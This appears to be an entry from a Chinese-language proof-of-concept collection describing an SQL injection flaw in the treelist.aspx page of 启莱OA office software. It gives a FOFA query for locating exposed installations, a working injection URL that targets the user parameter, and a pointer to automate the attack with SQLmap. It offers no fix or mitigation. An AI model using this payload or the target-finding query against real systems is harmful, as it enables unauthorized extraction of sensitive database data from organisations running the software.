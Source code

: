 # 启莱OA-treelist.aspx-SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](启莱OA-treelist.aspx-SQL注入漏洞.assets/1627363542298998.jpg)

存在SQL注入的文件为 treelist.aspx

```
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![](启莱OA-treelist.aspx-SQL注入漏洞.assets/1627363542686838.jpg)

使用SQLmap对参数 user 进行注入

![](启莱OA-treelist.aspx-SQL注入漏洞.assets/1627363542981607.jpg)